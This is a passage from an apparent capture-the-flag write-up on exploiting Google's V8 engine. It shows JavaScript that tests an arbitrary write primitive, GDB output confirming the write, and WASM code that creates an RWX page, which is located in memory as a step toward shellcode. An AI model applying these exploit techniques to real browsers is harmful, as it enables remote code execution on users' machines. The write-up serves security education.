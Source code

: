 We can test this super easily too, with the same principle:

```javascript
let float_map_lower = ftoi(float_map) & 0xffffffffn;
console.log("Map at: 0x" + float_map_lower.toString(16));
initial_arb_write(float_map_lower, 0x12345678n);
```

Observing the map location in GDB tells us the write worked:

```javascript
gef➤  x/4gx 0xf84082439f1-1
0xf84082439f0:	0x0000000012345678	0x0a0007ff2100043d
0xf8408243a00:	0x082439c90820ab61	0x080421b90820b031
```

### Full

Last time we improved our technique by using`ArrayBuffer` backing pointers. This is a bit harder this time because for this approach you need to know the full 64-bit pointers, not just the compressed version. This is genuinely very difficult because the isolate root is stored in the r13 register, not anywhere in memory. As a result, we're going to be using `initial_arb_write()` as if it's `arb_write()`, and hoping it works.

If anybody knows of a way to leak the isolate root, please let me know!

## Shellcoding

The final step is to shellcode our way through, using the same technique as last time. The offsets are slightly different, but I'm sure that by this point you can find them yourself!

First I'll use any WASM code to create the RWX page, like I did for [oob-v8](ctf-2019-oob-v8/):

```javascript
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var f = wasm_instance.exports.main;
```

Again, this generates an RWX page:

```javascript
gef➤  vmmap
[...]
0x000007106675a000 0x000007106675b000 0x0000000000000000 rwx 
[...]
```

Using the same technique of printing out the `wasm_instance` address and comparing it to the output of `search-pattern` from before:

```javascript
gef➤  search-pattern 0x000007106675a000
[+] Searching '\x00\xa0\x75\x66\x10\x07\x00\x00' in memory
[+] In (0x3c108200000-0x3c108280000), permission=rw-
  0x3c108211ad4 - 0x3c108211af4  →   "\x00\xa0\x75\x66\x10\x07\x00\x00[...]"
  [...]
```
